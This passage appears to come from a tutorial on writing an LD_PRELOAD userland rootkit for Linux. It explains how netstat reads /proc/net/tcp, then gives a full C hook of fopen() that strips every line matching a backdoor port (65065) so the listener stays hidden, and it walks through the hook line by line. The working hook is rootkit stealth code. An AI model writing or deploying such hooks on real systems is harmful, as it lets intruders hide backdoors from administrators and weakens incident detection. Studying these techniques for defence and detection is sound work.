 So we see the same information that was printed to the terminal in hex representation. `FE29` is `65065` in hex and since we're listening on the local `0.0.0.0` interface, it's prepended by `00000000`. There is no remote address information because we're not connected. 

So `netstat` reads this file and then stores that in a read buffer which is then interpreted and written to the terminal. 

We need a way to intercept a portion of this process and alter the results so that the `FE29` entries are not passed back to the end user of `netstat`. To accomplish this, I created an `fopen()` hook which is a higher-level wrapper function and not quite a syscall like `open()`. `netstat` actually calls `fopen()` which in turn calls lower level functions and syscalls. Here is the entire hook, and we will explain the whole thing: 
```c
FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
	orig_fopen = dlsym(RTLD_NEXT, "fopen");

	char *ptr_tcp = strstr(pathname, "/proc/net/tcp");

	FILE *fp;

	if (ptr_tcp != NULL)
	{
		char line[256];
		FILE *temp = tmpfile();
		fp = orig_fopen(pathname, mode);
		while (fgets(line, sizeof(line), fp))
		{
			char *listener = strstr(line, KEY_PORT);
			if (listener != NULL)
			{
				continue;
			}
			else
			{
				fputs(line, temp);
			}
		}
		return temp;

	}

	fp = orig_fopen(pathname, mode);
	return fp;
}
```

Let's explain this line by line:
+ `FILE *(*orig_fopen)(const char *pathname, const char *mode);` we are declaring a pointer to the function `orig_fopen` which has the exact definition of the legitimate `fopen()` function. This will later become our reference to the real function;
+ `FILE *fopen(const char *pathname, const char *mode)` this is our hook, this is what the calling program sees and recognizes as the offical definition of `fopen()`;
+ `orig_fopen = dlsym(RTLD_NEXT, "fopen");` we are initializing the pointer we declared earlier. We now have the address of the real `fopen()` function so that we can pass execution to it when needed;
+ `char *ptr_tcp = strstr(pathname, "/proc/net/tcp");` we are declaring a pointer that will be initialized if the `pathname` passed as an argument to `fopen()` by the calling program has a substring match with `"/proc/net/tcp"`; 
+ `FILE *fp;` we are using the `FILE` keyword to declare a pointer named `fp` that is of the `FILE` structure type. This will be normally the type of returned variable type of an `fopen()` function call so we need to initialize this with a `fopen()` call later;
+ `if (ptr_tcp != NULL)` if there's a match, and the file being opened is our `/proc/net/tcp`, do something;